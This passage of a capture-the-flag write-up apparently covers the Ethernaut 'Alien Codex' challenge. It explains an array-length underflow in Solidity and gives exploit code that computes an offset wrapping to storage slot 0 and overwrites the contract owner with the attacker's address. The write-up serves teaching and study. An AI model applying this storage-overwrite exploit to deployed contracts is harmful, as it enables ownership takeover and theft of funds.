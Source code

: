 ```solidity
function retract() contacted public {
  codex.length--;
}
```

This function can be invoked, and will **underflow** the variable at slot 1, tricking the EVM into believing that the array has `MAX_UINT256` elements. From there we can point to any slot we want.

#### Setting the offset

We need to determine the offset then, let's solve the equation

```
0x00 = offset + keccak256(1)                // reorganize
offset = 0x00 - keccak256(1)                // But 0x00 =  MAX_UINT256 + 1
offset = MAX_UINT256 + 1 - keccak256(1)     // But MAX_UINT256 - x = MAX_UINT256 ^ x
offset = ( MAX_UINT256 ^ keccak256(1) ) + 1
```

#### Putting all together

```solidity
// all the other functions have a modifier
// requiring you to invoke this one first
challenge.make_contact();

// this function will underflow the length of the dynamic array at slot1 to 0xff...ff
// meaning that now the EVM thinks that we have 2**256 - 1 elements there.
// this way we don't revert on an out of bonds condition.
challenge.retract();

// now we need our trick to write into slot0 (0x00...00)

// - here is where the first element of codex should be stored
bytes32 firstElementSlot = keccak256(abi.encodePacked(uint(1)));

// 0x00 = offset + keccak256(1)                // reorganize
// offset = 0x00 - keccak256(1)                // But 0x00 =  MAX_UINT256 + 1
// offset = MAX_UINT256 + 1 - keccak256(1)     // But MAX_UINT256 - x = MAX_UINT256 ^ x
// offset = ( MAX_UINT256 ^ keccak256(1) ) + 1
uint256 offset = uint256(bytes32(MAX_UINT256) ^ firstElementSlot) + 1;

// write!
challenge.revise(offset, bytes32(uint256(uint160(address(this)))));
```

### References

* https://docs.openzeppelin.com/contracts/2.x/access-control
* https://github.com/OpenZeppelin/openzeppelin-contracts/blob/1c8df659b98177b737fd8af411b30bf24c1cbef1/contracts/access/Ownable.sol#L21
* https://docs.soliditylang.org/en/v0.8.18/internals/layout_in_storage.html#mappings-and-dynamic-arrays
* https://solidity-by-example.org/hacks/overflow/

